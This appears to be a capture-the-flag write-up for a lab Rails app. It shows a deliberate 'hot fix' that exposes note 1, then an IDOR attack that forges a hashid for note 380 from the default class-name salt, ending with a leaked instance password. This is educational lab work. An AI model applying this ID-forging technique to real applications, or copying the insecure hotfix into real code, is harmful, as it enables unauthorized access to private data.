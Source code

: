 We can observe from the 2nd line that the show function can work without authentication and below we have some comment line for /notes/1. Comming at the end we find something interesting.

```rb
private
  # Use callbacks to share common setup or constraints between actions.
  def set_note
    if params[:id] == "1" # hot fix for old first note //should be removed soon 
      @note = Note.first
    else
      @note = Note.find(params[:id])
    end
  end
```

Looks like the developers implemented additional check in the notes controller for the note with the id “1”. So the very first note can be reached by simply using the id. But other notes can't be accessed due to `acts_as_hashids` gem in `/app/models/notes.rb`

# /app/models/notes.rb

```rb
class Note < ApplicationRecord
    acts_as_hashids length: 30
    # todo: add more security layers, maybe custom secret or implement a pepper
end
```

So, let's try to access `https://envizon.thm:3000/notes/1`. Yes!

```
Text: Hi Paul, for security reasons I added hashids with a length of 30 characters to notes. I stored the password for this envizon instance in the note with id 380 and sent you the link by email. We may should consider to add more security layers to this gem (https://github.com/dtaniwaki/acts_as_hashids) 
```

Looks like we have to exploit using IDOR. But before that we have to calculate hashid for note 380. And looking at `act_as_hashids` source code at github looks like it uses default secret as class name. And from `notes.rb` file we can find that our class name is `Note`. Ok we must have `hashids` gem to work with it!

```rb
irb
require "hashids"
hid = Hashids.new('Note', 30)
hid.encode(380)
"y2a419eKDBLRvEYobWNpw0jnr6xlAX"
```

We got our hash. Let's access it in url. `https://envizon.thm:3000/notes/y2a419eKDBLRvEYobWNpw0jnr6xlAX`

```
Text: Password for envizon: rE8Z*qyM!DTKNP8fGu4T3CtW*aurBQwLF 
```
